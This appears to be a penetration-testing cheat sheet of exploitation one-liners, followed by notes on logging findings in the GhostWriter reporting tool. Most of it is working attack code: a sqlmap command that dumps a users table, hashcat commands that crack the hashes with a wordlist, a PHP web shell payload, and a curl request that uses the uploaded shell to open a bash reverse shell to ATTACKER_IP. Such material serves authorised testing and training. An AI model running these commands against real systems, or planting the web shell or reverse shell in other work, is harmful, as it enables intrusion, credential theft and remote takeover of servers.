 ## One-Liner Exploitation Chains

### SQLi → Database Dump → Cracked Passwords
```bash
sqlmap -u "http://TARGET/page.php?id=1" -D webapp -T users --dump --batch && \
hashcat -m 0 extracted_hashes.txt /usr/share/wordlists/rockyou.txt --force && \
hashcat -m 0 extracted_hashes.txt --show
```

### File Upload → Web Shell → Reverse Shell
```bash
# 1. Upload shell.php with <?php system($_GET['cmd']); ?>
# 2. Test it
curl "http://TARGET/uploads/shell.php?cmd=id"
# 3. Get reverse shell
curl "http://TARGET/uploads/shell.php?cmd=bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'"
```

## Documentation for GhostWriter

**Create finding immediately when you confirm:**
- SQLi exists (even before full exploitation)
- File upload bypass works
- XSS confirmed (reflected or stored)
- Authentication bypass successful
- Sensitive files accessible

**Evidence to capture:**
- Error messages showing vulnerability
- Successful payload execution
- Extracted data (sanitized for report)
- Database credentials found
- Admin panel access

**Remember:**
- Document the FIRST successful payload
- Screenshot every major step
- Save command history
